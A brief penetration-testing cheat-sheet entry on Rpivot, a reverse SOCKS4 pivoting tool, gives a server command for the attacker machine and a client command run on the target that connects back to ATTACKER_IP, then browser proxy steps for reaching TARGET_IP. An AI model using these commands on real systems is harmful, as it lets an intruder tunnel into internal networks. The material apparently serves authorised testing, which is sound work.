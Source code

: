 # Rpivot

## Github repo: https://github.com/klsecservices/rpivot.git

### SOCKS4 proxy

 - python server.py --server-port 9999 --server-ip ATTACKER_IP --proxy-ip 127.0.0.1 --proxy-port 1080 (Attacker)

 - python client.py --server-ip ATTACKER_IP --server-port 9999 (Target)

### Now go to the web browser, then go to "Connections Settings"

#### 1) Manual proxy configuration

#### 2) On "SOCKS Host", write 127.0.0.1 on port 1080

#### 3) Click the "SOCKS v4" radio button

#### 4) On "No proxy for", write 127.0.0.1

#### 5) Browse to TARGET_IP
